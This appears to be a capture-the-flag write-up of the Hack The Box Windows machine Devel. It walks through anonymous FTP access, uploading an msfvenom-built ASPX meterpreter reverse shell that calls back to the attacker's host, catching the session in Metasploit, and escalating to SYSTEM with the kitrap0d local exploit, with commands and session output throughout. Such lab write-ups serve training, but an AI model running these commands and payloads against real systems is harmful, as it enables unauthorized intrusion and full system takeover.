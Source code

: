 Box: Windows 
Level: Easy

| **INDEX**      |
| -------------- |
| 1. ftp port 21 |
Use the following command to bypass the normal login sequence and use anonymous login
```
ftp -a <IP>

nmap -p21 --script=ftp-anon <IP> #You can also use nmap nse script
```

FTP Banner Grabbing
```
nc -vn <IP> 21 #I can use any other port to grab a banner

openssl s_client -connect devel.htb:21 -starttls ftp #Grabs the certificate 
```

Download all the files anonymously from FTP
```
wget -m ftp://anonymous:anonymous@10.10.10.5 #Download all the files

wget -r --user="USERNAME" --password="PASSWORD" ftp://10.10.10.5/ #With Creds
```

####Scenario
So the box was allowing me to upload anything on the users share using the above ftp -a command and i was able to upload the shell.aspx to get the reverse shell. But the shell was limited and did not allowed me to read the user flag. i ran the following msfvenom command to prepare the ASPX payload.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.5 LPORT=443 EXITFUNC=thread -f aspx -o shell2.aspx
```

Than I upload the payload using ftp onto Users Shares. After that I ran the MSF Console and use the following exploit to get the session. Following to that I use the local exploit suggester of Metasploit to perform the privilege escalation. 
```
use exploit/multi/handler                      # Use this exploit
set payload windows/meterpreter/reverse_tc     # The Payload
set LHOST 10.10.16.5
exploit
	[*] Started reverse TCP handler on 10.10.16.5:443 
	[*] Sending stage (176198 bytes) to 10.10.10.5
	[*] Sending stage (176198 bytes) to 10.10.10.5
	[*] Meterpreter session 3 opened (10.10.16.5:443 -> 10.10.10.5:49198) at 2024-07-28 23:17:16 -0400

sessions --list

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  3         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.16.5:443 -> 10.10.10.5:49201 (10.10.10.5)

#at this point, just type "meterpreter>sessions -i 1" where 1 is an invalid #session number and you will be back to the msf6> prompt where you can use the #following exploit suggester module and the session remains active. DO Not Use #Exit or Quit. That will kill the session.

use post/multi/recon/local_exploit_suggester     #Now using the exploit suggester
set SESSION 3
set SHOWDESCRIPTION true
run

#One of the suggestion was exploit/windows/local/ms10_015_kitrap0d from the output above

use exploit/windows/local/ms10_015_kitrap0d
set SESSION 3
set LHOST 10.10.16.5
exploit

#Another sessoin will open at this point which has the NT Authority\SYSTEM access.
```

That's how I solved the Devel.htb

